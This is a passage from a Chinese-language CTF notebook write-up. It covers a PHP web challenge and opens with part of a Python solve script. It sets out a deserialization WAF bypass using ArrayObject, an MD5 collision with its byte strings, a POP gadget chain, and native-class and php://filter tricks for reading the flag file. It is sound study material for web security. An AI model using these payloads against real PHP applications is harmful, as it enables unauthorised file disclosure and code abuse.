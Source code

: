 		  r = base_post(url + "/register", data = payload, allow_redirects = False)
		  print(r.text)
		  r = base_post(url + "/login", data = {"username": "1", "password": "1"}, allow_redirects = False)
		  print(r.text)
		  r = base_get(url + "/flag", params = {
		      "num": "123456789 "
		  }, allow_redirects = False)
		  print(r.text)
		  ```
- # ez_php
  collapsed:: true
	- 解题思路
		- php常规题加大加厚，涉及知识点
			- [[CTFWEB/PHP/反序列化]]
				- ((64f02a3a-fbd3-41a2-90dd-34399046a38a))
				- ((6478aaed-0cfc-41e3-a12e-55de79af3104))
			- [[CTFWEB/MD5]]
			- [[CTFWEB/PHP/运算优先级]]
			- [[CTFWEB/PHP/可变函数]]
			- [[CTFWEB/PHP/原生类]]
			- [[CTFWEB/伪协议]]
			- ((64572c54-7814-4588-9fec-96dd86e3ab23))
		- 总体思路
			- 反序列化`useless`类读`key.php`，找到hername和key
			- 利用反序列化调用`her::find`，然后使用原生类+伪协议找到并读取flag
		- 绕过waf进行反序列化
			- 题目不允许反序列化开头是`O`或`a`的字符串
			- 把你的类塞进`ArrayObject`然后反序列化出来就是`C`开头的了
				- ```php
				  $a = new ArrayObject([114 => 514]);
				  $a -> o = $o; // 把你的类塞进这里
				  echo "payloadsta"."rt".base64_encode(serialize($a))."payloadst"."op";
				  ```
		- 读key.php
			- [[CTFWEB/MD5]]绕过，然后利用 ((64572c54-7814-4588-9fec-96dd86e3ab23)) 绕过`if(basename($_SERVER[$a])==='key.php')`
			- 其中计算`$bool`时的and优先级小于赋值，所以and后面的那个奇怪的判断可以忽略，参考：[[CTFWEB/PHP/运算优先级]]
		- 读flag
			- 链子：`Me::__wakeup --> her::__invoke --> important::__sleep --> useless::__get --> FLAG!`
			- `Me::__wakeup`
				- 一眼用 ((6478aaed-0cfc-41e3-a12e-55de79af3104)) 绕过
			- `useless::__get`
				- 用[[CTFWEB/PHP/可变函数]]调用`her::find`
			- 原生类读flag
				- ctf: `DirectoryIterator`, fun: `glob://f*`: 看到flag文件
				- ctf: `SplFileObject`, fun: `php://filter/read=convert.base64-encode/resource=flag_my_baby.php`拿到flag文件的base64, 解密即可
	- 读key.php
		- pop链
			- ```php
			  $useless = new useless([]);
			  $useless -> QW = urldecode("%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2");
			  $useless -> YXX = urldecode("%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2");
			  